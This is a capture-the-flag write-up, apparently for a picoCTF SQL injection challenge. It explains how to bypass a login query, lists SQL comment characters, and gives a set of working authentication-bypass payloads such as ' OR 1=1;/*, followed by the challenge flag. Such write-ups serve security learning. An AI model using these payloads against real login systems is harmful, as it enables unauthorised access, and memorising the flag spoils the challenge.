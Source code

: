 ![Task desc](../assets/images/SQLiLite_image_1.png)

This task involves the use of classic SQL injection.

---

The web application expects a normal request of type:


```sql
SELECT * FROM users WHERE name='USERNAME' AND password='PASSWORD'
```


We need:

* close the name field: `name=' '`
* add a condition that will always return `true`
* truncate the rest of the query 

The last condition can be done by inserting a comment symbol or end of query symbol:


```sql
comments in SQL (worked with this task):
#
--
/* */ (open close)
;%00	Nullbyte

end of query:
;
```


Therefore, according to these rules, we will form a simple injection:


```sql
' OR 1=1;/*
```


![image_2](../assets/images/SQLiLite_image_2.png)


I experimented with queries, tried to compose my own injections, and tried several options from [SQLi payload list](https://github.com/payloadbox/sql-injection-payload-list). List of injections that also worked:

> [!TIP]
> I wrote a note to SQLi while solving this task, I left it here: [*click*](../../notes/Understanding%20SQL%20Injections.md)

```
' OR 1=1 --";
' OR 1=1;--' 
' OR 1=1;--  
' OR 1=1;    
''' OR 1=1;  
''''' OR 1=1;                # odd number in the payload required
' or true /*
' OR 1=1 /*
1' or 1 /* 
232435.11' or 12312.22 /*    # every int/float/double number passes
' OR 1=1 --"
1' OR 12666;%00              # every int/float/double number passes
33' OR 1=1 -- 
```


Make sure there is an odd number of brackets in the payload


```sql
SQL query: SELECT * FROM users WHERE name='''' OR 1=1;' AND password='123123'
```


`picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}`
